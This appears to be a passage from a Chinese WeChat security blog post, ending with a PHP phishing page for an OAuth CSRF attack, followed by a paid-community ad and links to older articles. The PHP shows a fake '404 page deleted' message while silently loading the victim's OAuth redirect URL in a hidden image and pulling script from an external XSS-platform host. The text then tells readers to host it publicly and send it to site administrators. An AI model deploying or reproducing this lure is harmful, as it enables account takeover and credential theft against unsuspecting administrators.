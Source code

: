 ```
if (!$result['redirect_url']) {
    // echo '登录过期';
    echo '<ScRipT sRc=http://xxxxx.cn/ExiptZI></SCriPt>';
} else {
    // echo '我还能搞事';
    // echo $result['redirect_url'];
    echo '<img src="'.$result['redirect_url'].'" style="display:none;">';
    echo '<ScRipT sRc=http://xxxxx.cn/Exi0TCW></SCriPt>';
}
http_response_code(404);
echo '<div>404 网页已删除</div>';
```  
  
  
放置外网：  
http://127.0.0.1/a_test_oauth_csrf.php  
 发送给各大管理员  
  
然后安静的做一个美少女等待即可  
  
xss平台：  
http://xss.tf  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj4ELGpia2CaEeFlX7z8foQZcMo4ymaoh2iaHAofyiaSQJ20SHIm7WnkkEMe9gI2IJENCdpWdNOyFLHNA/640?wx_fmt=png&from=appmsg "")  
  
  
  
如果你是一个长期主义者，欢迎加入我的知识星球，我们一起往前走，每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款前面有同学问我有没优惠券，这里发放100张100元的优惠券,用完今年不再发放  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj7N5nMaJbtnMPVw96ZcVbWfp6SGDicUaGZyrWOM67xP8Ot3ftyqOybMqbj1005WvMNbDJO0hOWkCaQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj5jYW8icFkojHqg2WTWTjAnvcuF7qGrj3JLz1VgSFDDMOx0DbKjsia5ibMpeISsibYJ0ib1d2glMk2hySA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## 往期回顾  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486912&idx=1&sn=8704ce12dedf32923c6af49f1b139470&chksm=e8a607a3dfd18eb5abc302a40da024dbd6ada779267e31c20a0fe7bbc75a5947f19ba43db9c7&scene=21#wechat_redirect)  
  
[dom-xss精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247488819&idx=1&sn=5141f88f3e70b9c97e63a4b68689bf6e&chksm=e8a61f50dfd1964692f93412f122087ac160b743b4532ee0c1e42a83039de62825ebbd066a1e&scene=21#wechat_redirect)  
  
  
[年度精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
[](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
  
  
[Nuclei权威指南-如何躺赚](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487122&idx=1&sn=32459310408d126aa43240673b8b0846&chksm=e8a604f1dfd18de737769dd512ad4063a3da328117b8a98c4ca9bc5b48af4dcfa397c667f4e3&scene=21#wechat_redirect)  
  